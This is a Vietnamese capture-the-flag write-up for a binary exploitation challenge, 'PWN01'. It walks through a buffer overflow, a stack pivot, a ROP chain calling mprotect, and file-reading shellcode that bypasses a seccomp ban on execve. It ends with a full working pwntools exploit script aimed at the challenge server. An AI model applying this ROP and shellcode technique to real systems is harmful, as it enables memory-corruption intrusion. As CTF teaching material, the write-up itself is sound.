 # PWN01

![img](./assets/overview.png)

## OVERVIEW

- Challenge cho chúng ta một file ELF 64-bit. Bên dưới là thông tin của file

![img](./assets/file_info.png)

- Tiếp theo mình cho file này vào ida để decompile nó xem bên trong nó thực hiện những gì.

![img](./assets/main.png)

- Hàm main đầu tiên setbuf() cho các file, sau đó gọi đến hàm init_seccomp().
- Kiểm tra hàm init_seccomp(), mình biết được hàm tạo ra những quy tắc cho file, cụ thể ở đây là không cho phép sử dụng lệnh gọi execve (0x3b) và một số quy tắc khác với hàm bpf() mà mình chưa rõ (Cũng vì hàm này nên cũng tiêu tốn khá nhiều thời gian giải bài của mình :v).

![img](./assets/seccomp-tools.png)

- Tuy nhiên từ đây, ta biết là gần như chúng ta không thể lấy được shell đang chạy chương trình.
- Tiếp trong hàm main, ta có 2 lệnh in màn hình, lệnh nhập cho biến nm với đầu vào 256 ký tự, in tiếp ra màn hình thông báo và lệnh read(0, v6, 0x90);, lệnh này gây buffer overflow vì biến v6 được khởi tạo có 96 bytes. Như vậy là mình có thể ghi đè thêm 0x30 bytes.
- Và sau đó là hàm is_this_funny() thực hiện việc kiểm tra 11 ký tự đầu của chuỗi v6 xem có đúng bằng với chuỗi "I'm weebiii" không. Nếu không thì sẽ thực hiện thoát chương trình ngay. Còn nếu có thì chương trình được thực hiện tiếp đến khi thoát hàm main.

![img](./assets/is_this_funny.png)

- Mình có rà soát lại các hàm khác và tìm được một hàm winwin(), tuy nhiên chúng ta đã không thể dùng lời gọi 0x3b để lấy được shell rồi :v.

![img](./assets/winwin.png)

## IDEA

- Mình sẽ dùng lỗi buffer overflow để tạo một đoạn ROP gadget chuyển hướng `RIP` về địa chỉ của `nm`, tại `nm` mình sẽ lưu trữ các địa chỉ của các ROP gadget khác.
- Các lệnh này đầu tiên sẽ thay đổi địa chỉ của con trỏ `RSP`, biến vùng nhớ của `nm` trở thành stack "ảo" để chúng ta thực hiện chuỗi các gadget khác đằng sau đó, như vậy là mình có thể thực hiện ROP thoải mái hơn.
- Mình sẽ chia `nm` thành 3 phần, phần đầu dùng để chứa địa chỉ của các ROP gadget, phần thứ 2 sẽ dùng để chứa shellcode, phần thứ 3 thì mình sẽ dùng để chứa data cho shellcode.
- Do chúng ta không thể gọi đến lệnh lấy shell, nên mình sẽ thử in ra các file trên server xem có tìm được flag không (Thật ra đây là ý tưởng cuối cùng mình có thể làm).

## Details:

- Mình dư ra `48 bytes` khi lấp đầy được biến `v6`, mình cần `8 bytes` ghi đè `RBP` để tới được phần địa chỉ `RET` của hàm `main`. Như vậy là mình còn `40 bytes` để thao tác.
- Thật may là file này được compile với `statically linked`, tức là file đã chứa hầu hết các hàm của thư viện, điều này sẽ thuận tiện cho việc tìm các gadget hơn.
- Dưới đây là những địa chỉ và giá trị hữu ích mà mình tìm được để thực hiện việc khai thác. 

![img](./assets/rop_list.png)

- Đầu tiên mình sẽ xây dựng payload cho việc ghi dữ liệu vào `nm`.

![img](./assets/nm_input.png)

- Ở đây mình sử dụng `16 bytes` đầu cho việc điền tên file, vì mình không biết tên file flag là gì, nên mình sẽ dành `16 bytes` cho việc thử tên.
- Sau đó là gadget pop `RSP`, lệnh này sẽ thay đổi địa chỉ trong `RSP` thành giá trị nào đó (lúc này `RSP` vẫn trỏ lên stack nên giá trị truyền vào `RSP` sẽ nằm trên stack).
- Sau đó là các gadget truyền đối số vào các thanh ghi và thực hiện `mprotect(data_segment, 0x2000, 7);` lệnh này sẽ thực hiện set quyền `rwx` cho cả phân đoạn `data` (chứa cả `nm`). Mình phải làm điều này vì file đã bật `NX` (không cho phép có phân đoạn nhớ nào có cả thuộc tính ghi và thực thi).
- Sau khi thực hiện lệnh `mprotect();` xong thì mình sẽ nhảy đến vùng nhớ của shellcode để thực thi shellcode.
- Đây sẽ là tên file mình sử dụng.

![img](./assets/file_and_shellcode.png)

- Shellcode của mình thực hiện việc mở file có tên trong biến file, và sau đó đọc `0x100 bytes` trong file đó và ghi vào địa chỉ `0x4d73d0`, phần này là phần vùng nhớ cuối của biến `nm`. Tiếp theo là phần in ra dữ liệu tại địa chỉ `0x4d73d0`.

![img](./assets/shellcode.png)

- Sau đó mình sẽ gộp 2 phần ROP và shellcode vào là được payload để truyền vào biến `nm` rồi.
- Còn biến `v6`, mình sẽ ghi đoạn đầu đúng như chuỗi trong hàm `is_this_funny();` để chương trình không chạy vào hàm `exit();`. Sau đó là phần padding `(0x68-11) bytes` để chúng ta đến được vùng nhớ `RET` của `main`.

![img](./assets/payload.png)

- Chuỗi các gadget mình sử dụng sẽ set địa chỉ bắt đầu của phần ROP trong `nm` vào `RSI`, và sau đó sẽ chuyển hướng `RIP` đến vùng nhớ đó thực hiện các lệnh trong ROP. 
- Tuy nhiên sau khi chuyển hướng `RIP` đến vùng nhớ của `nm` thì chúng ta vẫn phải thay đổi tiếp `RSP` để thực hiện tạo một stack "ảo", do đó sau lệnh `jmp rsi`, mình sẽ để địa chỉ tiếp theo trong ROP trên `nm`.

- Đây là script dùng để khai thác.

```python
from pwn import *
#----------------------------------------------
# Register pop gadget
pop_rsi     = 0x4021e4 # : pop rsi ; ret
pop_rdx     = 0x450b6d # : pop rdx ; ret
pop_rdi     = 0x4033e1 # : pop rdi ; ret
mtf         = 0x401dc0 # : pop rsp ; ret

# Change RIP gadget
jmp_ptr_rsi = 0x486638 # : jmp qword ptr [rsi]

# Address
nm_rop  = 0x4D7330 # Start of ROP chain in nm
mprotec = 0x452E50 # mprotec address

start_s = 0x4d6000 # start segment for mproc
size_s  = 0x2000   # size that want to set
per_s   = 7        # mode rwx
sh_addr = 0x4d7378 # shellcode's address

# Data
file    = b"flag"
shellcode = b"\x48\xC7\xC0\x02\x00\x00\x00\x48\xC7\xC7\x20\x73\x4D\x00\x48\xC7\xC6\x00\x00\x00\x00\x48\xC7\xC2\x00\x00\x00\x00\x0F\x05\x48\x89\xC7\x48\xC7\xC6\xD0\x73\x4D\x00\x48\xC7\xC2\x00\x01\x00\x00\x48\xC7\xC0\x00\x00\x00\x00\x0F\x05\x48\xC7\xC6\xD0\x73\x4D\x00\x48\xC7\xC2\x00\x01\x00\x00\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x0F\x05"
#----------------------------------------------
# Code Start
p = remote("167.172.80.186", 6666)
p.recvuntil(b"> ")

ROP = file + b"\0"*(16-len(file)) + p64(mtf) 
ROP += p64(pop_rdi) + p64(start_s) 
ROP += p64(pop_rsi) + p64(size_s) 
ROP += p64(pop_rdx) + p64(per_s) 
ROP += p64(mprotec)
ROP += p64(sh_addr) 

p.send(ROP + shellcode)

p.recvuntil(b"> ")

payload = b"I'm weebiii" + b"a"*(0x68-11)
payload += p64(pop_rsi) + p64(nm_rop) 
payload += p64(jmp_ptr_rsi) 
payload += p64(nm_rop + 8)

p.send(payload)

p.interactive()

```